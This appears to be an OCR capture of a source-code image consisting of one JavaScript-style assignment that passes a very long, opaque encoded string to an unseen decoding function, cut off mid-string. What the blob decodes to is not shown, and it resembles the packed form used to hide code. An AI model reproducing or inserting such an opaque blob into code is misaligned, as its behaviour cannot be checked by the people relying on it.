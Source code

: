 a=p(e,"WL6UzFV!BpSH_(PqLFpBVzUoqP(UpzV)6_qV6(q_HSBpVzULqHHPBqFzHPpLFz69P_HV_BH6B(yFq_P6_6UVPVHS!_zBLz(PPS(pSFzqzPLpPFS_!!(SS!!tU_XBz!LF_PUSEq(rp_VBU6FU6P;!_SpU!6PF(__6S6qS_BpTF_6BF!6BP(_S6VqGH_BBFz66qUHBBzF-B6F!6VPFS(!Hz_H6!qzBLzPiSS(zBBLL((SS!_zhg_(BS6HLS6!BUz+_(Hppd!(Gp_VBUzJ8S_D!SzU6Lz_BpzV>6SUqUkqV_!zFVF6FPP!FVFFV6_PB_DBqz((FqzH6BHFHLVPqzP6.PzHe!_zVFzz_L!PpSV!Hz(SSp_zA%_(BS6_LSLVPzzH(_qpPV(U6Hp(_p6!yPptF(Up_V(6Sqz(LBPFpPL-z_6ppFp(((V_zprFHy_PSHzU(UqPBBVFFL_PBHz!Pp(!PzPL6!PFFLzP:S_!VB_!6F6_F_FH6!(zzLU(VpS!L(!SdV_UBQz(3p_FB!U.6(zpBVzUCqSL6q6_BBPzp66PqFP6_qz_mB_FVV_F6U6BSFS6GP_HBq!_zBPFL66P!zP6VPzHj!_zVVFz66LPpBF!Vz_nVPLS(VPUVLU!6zF{B(zS7VSB<VVzVP6(USL!6U(pSVpU2q__Bp6_zBSV66Vp6Vp6Bqz_ BSSEBVVV(pqp_VpLFB6!PSSPBFPSHpB:z_LBP6qVP!SPBFP6HV!BzzL8(SPS(qHLVPz!_LHBpP!P(VSHV_UBuz_P(S_ppFFL6P9((FBqVBU(pFVv6PJF_zpfF_6VUF6Vq_HBpIFqL(SFp(BVF!6TBVFVL_PBHz!PHz!SFSL6PLzSLPPlS_!Bz6FVz!LpPUS_F6UBL1(HUP1((zS^V_UVzq6P;V_SU!/N__pBVzUnq__B(zV6z6qB_zpAFSBSFPLqPP_!BpF_UkqL!LppUP6UPS_U!PF!6z(PHFpLPVHp!_zBLz(PL(PzHzBLzH:P(qSz*Pq6Sz!NU_cVLP<_(BSUFzU6q__zBz!LUHqP_qpzV_9(qS_LB(FS6q_P_(ppVU_6SBFB6zqRHSq!HUpFzS6BqzH6B(zPLFH!!BzzLB(PSp!HzVf(PLSV!BzQx(((SV!zTP(_Sz!1U_VSz(Lz(LUSLL(9p_VBU6zVU!Ap(Up_UPUUq6HqpFFS6Fp6VV6Bqz_kBSpPBqVL6HqzSFB6VL6pBVVBL_PBHz!PHH!!FpoPP_HB!VFLL6(p!HU_5B(pSF!FU_AB(FS6!6UP2pS6BBUB/z(apS(!pU!F6S0B(zp6V(6PqFp!FB6zqSH(BqF(6VqVH(BVFzLqPqHSBSF.PP_zBzFIL_PVNLPqSPB6zS66PVpz!qzp66!SzSLX(_SB!6S(!HUPnqPLUq{B(zSgV_UBXz(yp_VSUSXj__pBV6!VVV6VqB_66P%p_zp2F_6VUPLPqzHSVqF_6(PPH!BVz_LVqFHVBBFUHVpZz_LBPzSP_(HpF(UFqP__pB!HL(kzH_BPFF6_PH!6F_MB(zSjVSB VVzVHpB(!(VVU!>kBLBPVPUp}e_SBSVp6Sq HSpLF(UVSpHBpiF(66PSHFzVPP_#BzFcL_PVqBP6H(UF6_L6q6zSU(PmS_!Bz6!Fz(LpPLH+zU?z(4(pS6!UU__S__pSVqzLqP(!FqVH6Pcpp*FP6_qV_!pFVL6Hq#qBHPpPLPPqHSBVFSq6L6BBFz6,PSL(qF_LBpFBPHS_!BB!z66zS!S_!SFLLLPSSUB6z_<SPUSe!BzULF(6S!!pqq?k(BS6UN6Aq_(!pSV(U((!(USU6BLLqSHqpHFVUU1VSBp!FS6_q!BzpUF6LqqBB=BFzPLVPF_yzBF6L6PVH!zz6(LV(HH!!6zq66_zHU!VzBLU!Vzq}_(BSzHSpUFz6FPH_H!_!66!qUH(B_z_z^P_VVU(q__BpzFPV_Vz6qqU_6B_U!6_qFHpBVFqHPB(Fz6sP_HV_SHGBBFUHVBBz_LBPzSP_LHpBFz(qA(SHFL6qSSB!zz:aS6PLdP6FpVVzU26BpSL!#Uz8e_SpFL(U6&UBLBPV_PFq6!(ppVL66IVHPp!qV_PB_FB6zPPLB_HpVBqULLB(BS6BzF6qV__SLLSPqHm!_zBL66pLB(_SB!6U(_FHSSH6S(SH!!%U_3B(6qbP6SB!FU6KVH.pV!VLP9U_SSUFPU!kzHPpFqH_zpnF_6Bqz_}S7pB6VqBH_BBFzLP6(LSP!SPBPFL6FB6F^LBPzH9q _LBzzFSPBLzzL0(_SVHzpP!FzLgU_Pp_!k(VSHV_UBoz_PP__VS!V63_:z_qpUV66_pV!(6_qB_zBP_LppVF6(q_BqFwL_U6qz_VpLFPPUPUH6zBL_Rp_Fp(zBzPI!_/pPzpzBSPBUzzL=(_SVHPpP!zUSqB(VS!Vpz&LzVPzqdz(?p_VVBz!VU_sp_VpSLpL:qV(Vzp!LLVqH_6pHFV6qq_HVB(VpHPpzFz6/P_HV_pHV!(zS/LPqSPB6zS66PVzSLpPwS_!BHB!LUPLz(pz66B(BSz!GUS!!UULF_SSB!zU6k(_PpFU!qB_zpBFPULqP_BpVFp6Bq6_UB_F!6SqVBPVL6zqTH_BVp6BLz(ZLP6Sq!PFL!zBuz_LBqVqp!_zBLzLVS_!BzzLVPHSB!zzmUH(BSF!{U_4B(BqHV_UBGzqqp_VpUzjEPUpBVzUTq__BpzV>6_z6_zpLF_6Bqz_*B_FBzxqdH_BBFz6^P(HBSzB_L_PBHzBDz_6SPz_6PLzBLFP}(S!BzzL8PPS(!zz6=_vPSz!:U_uPPVSlVqUBG_(/p(VBUFGv__q!VzU>q__ppzVE6_qBUSp5FP6BqV_hB(FBUVqSH_BSFzVJP_HBBzV6UTPBH!B^VLLBPzHEp_zpLzPUS_!HzzLz(_HS!PzCL3(BPH!/U_rBqzSSV_U_#z(zp_!IUzL6((pBVpUuLL_BpzV3z_Uz_zpFF_6(qz_VB_VS6Fqj_6BBVp6>P_HBSzV6L_PPHzBVz_UqPzH<B!zBLHP:S_!BzzLaPPHp!zzBA_dVSz!<U_LSP!SN!FUBLg(yp_VBzVh!__S6Vzz6q__BpzVzz6qB__ph!_6BqF_cB___6zq_H_B(Fz6DP_HBSzFX6pPBHqBjz_LBPzHV!_FzLzP6S_!SzzLZqFSB!HzNL!(BH)!vU_uS(zS!V_zzgz(Hp_V_!UdX(zpB!PU*q(_Bpz!z6_4O_zpBF_6Bqz_VpPFB6_q5_!BBFF6.q6HBBzSqL_PBHzB6z_LBPzH<(HzBLzP}H+!BzzLr(_:!!zzN}_PZSz!2U_jBUUSeV_UBr!(Gp_VBUzFq__pBVzU!q__BpzVjBHqB_zpfF(6Bqz_bB__L6zqpH_pyFz6kP_HBBSFn6VPBHzBwz_LBPz_!!_FLLzP6S_!SzzL#PHSB!zzoLF(BSz!*U_LS(zSvV_USZz(4p_VBUFJJ__pBVzUhq__BpB!(6_qB_zzqF_6pqz(6YpFB6zqOP(BBFz6/*_PVBzF+L_PBHzp6z_6SPSHx!_zBUBPfS_!BFVLV(_SB!z!LO_(BSzpwFVbB(zS<V_UB6V(/SP!qUzAG___FVzUvq__BS_VX6_qB_FpoF_6BDV(_B_FB6zLFH_BBFzU6VpHBBzF2F!PBHzB1!6zzPzHi!_BULzPLS_B!zzLzU!SB!zzXz!(BSF!/z8VU(zS,V_!z2z(Lp_VBVpN0__pBVFUdq__BSV((6_qB_zpLF_6Bqz(6YVFB6Fq>(zBBFz67j_HHBzFLL_PpHzHpz_6SP(Hd!qzBzpPTS_!BzzLH(_Sp!zzU?_(BSz!sF6fB(zS}V_UB#V(